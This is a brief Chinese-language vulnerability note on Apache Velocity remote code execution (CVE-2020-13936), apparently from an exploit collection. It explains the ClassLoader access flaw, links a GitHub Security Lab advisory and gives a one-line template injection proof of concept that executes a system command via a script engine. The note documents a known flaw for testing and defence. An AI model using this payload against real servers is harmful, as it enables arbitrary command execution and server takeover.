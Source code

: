 # Apache Velocity 远程代码执行 CVE-2020-13936

## 漏洞描述

Velocity Uberspector无法阻止访问java.lang.ClassLoader类加载器方法。在VelocityView的上下文中使用Velocity模板时，能够修改模版的攻击者可以使用与运行Servlet容器的帐户相同的权限执行任意Java代码或运行任意系统命令。

参考链接：

- https://securitylab.github.com/advisories/GHSL-2020-048-apache-velocity

## 漏洞复现

poc：

```
${req.getServletContext().getAttribute('org.apache.tomcat.InstanceManager').newInstance('javax.script.ScriptEngineManager').getEngineByName('js').eval("java.lang.Runtime.getRuntime().exec('touch /tmp/pwned')")}
```


